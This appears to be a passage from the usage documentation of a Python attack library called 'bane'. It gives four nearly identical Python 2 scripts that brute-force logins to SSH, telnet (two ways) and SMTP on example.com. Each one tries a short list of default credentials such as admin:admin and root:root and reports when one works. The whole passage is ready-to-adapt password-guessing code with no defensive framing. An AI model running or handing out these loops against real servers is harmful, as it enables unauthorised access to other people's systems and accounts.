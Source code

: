 
<br><h4>ssh2:</h4>(using paramiko module) 

<br>wordlist=["admin:admin","admin:12345","root:root"]
<br>for x in wordlist:
<br>&nbsp;user=x.split(":")[0]
<br>&nbsp;pwd=x.split(":")[1]
<br>&nbsp;print'"[*]Trying:",user,pwd
<br>&nbsp;if bane.ssh2("example.com",username=user,password=pwd)==True:
<br>&nbsp;&nbsp;print'[+]Found'
<br>&nbsp;&nbsp;break
<br>&nbsp;else:
<br>&nbsp;&nbsp;print'[-]Failed'


<br><h3>TELNET:</h3>

<br>here we have 2 different ways to logins to a telnet server:

<br><h4>telnet1:</h4>(using pexpect module with "spawn" instead of "pexssh", which is more cleaver) 

<br>wordlist=["admin:admin","admin:12345","root:root"]
<br>for x in wordlist:
<br>&nbsp;user=x.split(":")[0]
<br>&nbsp;pwd=x.split(":")[1]
<br>&nbsp;print'"[*]Trying:",user,pwd
<br>&nbsp;if bane.telnet1("example.com",username=user,password=pwd)==True:
<br>&nbsp;&nbsp;print'[+]Found'
<br>&nbsp;&nbsp;break
<br>&nbsp;else:
<br>&nbsp;&nbsp;print'[-]Failed'


<br><h4>telnet2:</h4>(using telnetlib module) 

<br>wordlist=["admin:admin","admin:12345","root:root"]
<br>for x in wordlist:
<br>&nbsp;user=x.split(":")[0]
<br>&nbsp;pwd=x.split(":")[1]
<br>&nbsp;print'"[*]Trying:",user,pwd
<br>&nbsp;if bane.telnet2("example.com",username=user,password=pwd)==True:
<br>&nbsp;&nbsp;print'[+]Found'
<br>&nbsp;&nbsp;break
<br>&nbsp;else:
<br>&nbsp;&nbsp;print'[-]Failed'


<br><h3>SMTP:</h3>

<br>wordlist=["admin:admin","admin:12345","root:root"]
<br>for x in wordlist:
<br>&nbsp;user=x.split(":")[0]
<br>&nbsp;pwd=x.split(":")[1]
<br>&nbsp;print'"[*]Trying:",user,pwd
<br>&nbsp;if bane.smtp("example.com",username=user,password=pwd)==True:
<br>&nbsp;&nbsp;print'[+]Found'
<br>&nbsp;&nbsp;break
<br>&nbsp;else:
<br>&nbsp;&nbsp;print'[-]Failed'
